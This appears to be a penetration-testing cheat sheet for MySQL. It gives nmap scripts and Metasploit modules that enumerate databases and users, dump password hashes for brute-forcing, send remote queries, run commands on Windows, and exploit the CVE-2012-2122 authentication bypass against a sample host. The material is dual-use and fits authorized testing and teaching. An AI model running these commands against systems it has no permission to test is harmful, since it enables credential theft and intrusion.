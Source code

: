# Databases

## Nmap

Module that displays available databases:

    # nmap -sV --script mysql-databases <target>

Module that displays available users:

    # nmap -sV --script mysql-users <target>

Module that displays available variables:

    # nmap -sV --script mysql-variables <target>

Module that displays available users and their hash values in the form convenient for brute force attack (equivalent to 
`msf>use auxiliary/admin/mysql/mysql_hashdump`):

    # nmap -p 3306 <ip> --script mysql-dump-hashes –script args='username=root,password=secret'

Module that replaces MySQL client and sends queries to a remote database (equivalent to 
`msf>use auxiliary/admin/mysql/mysql_sql`):

    # nmap -p 3306 <ip> --script mysql-query --script-\ args='query="<query>"[,username=<username>,password=<password>]'

## Metasploit

```text
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

Requiring credentials:

```text
msf> use auxiliary/scanner/mysql/mysql_hashdump
msf> use auxiliary/admin/mysql/mysql_enum
msf> use auxiliary/scanner/mysql/mysql_schemadump
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

## CVE-2012-2122

The [CVE-2012-2122](https://www.cve.org/CVERecord?id=CVE-2012-2122) vulnerability allows remote users to bypass 
authentication due to improper checking of returned values. Only old systems are affected: Ubuntu Linux 64-bit (10.04, 
10.10, 11.04, 11.10, 12.04); OpenSuSE 12.1 64-bit MySQL 5.5.23-log; Debian Unstable 64-bit 5.5.23-2; Fedora; and Arch 
Linux. Still, worth checking for.

```text
msf > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf auxiliary(mysql_authbypass_hashdump) > set RHOSTS 172.16.2.54
msf auxiliary(mysql_authbypass_hashdump) > set USERNAME root
msf auxiliary(mysql_authbypass_hashdump) > exploit
```

For `nmap`, during the scanning, use the script `mysql-vuln-cve2012-2122`:

    nmap -sV --script mysql-vuln-cve2012-2122 <target>

## In a hurry

    # nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <target>
